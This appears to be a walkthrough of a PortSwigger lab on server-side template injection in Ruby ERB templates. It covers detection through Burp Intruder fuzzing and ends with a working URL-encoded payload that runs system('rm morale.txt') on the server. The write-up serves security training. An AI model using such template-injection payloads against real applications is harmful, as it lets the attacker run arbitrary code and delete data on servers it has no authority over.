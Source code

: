 # [Lab: Basic server-side template injection](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic)

## Lab

This lab is vulnerable to  [server-side template injection](https://portswigger.net/web-security/server-side-template-injection)  due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the  `morale.txt`  file from Carlos's home directory.

## Analysis

When I clicked the view details button of the first product, I noticed that the url was quite strange:

![analysis.png](./../img/lab-1-analysis.png)

## Scan

- burpsuite scanner failed

## Detect

Using burp's intruder:

- positions: `GET /?message=§abcd§ HTTP/1.1`
- payloads: fuzzing template injection
- result:
![fuzzing.png](./../img/lab-1-fuzzing.png)

The `<%=77*77%>` has the syntax of erb ruby

## Exploit

Cheatsheet: <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby>

delete morale.txt file to solve the lab:

```http
GET /?message=%3c%25%3dsystem(%22rm+morale.txt%22)%25%3e HTTP/1.1
```

## References

<https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby>
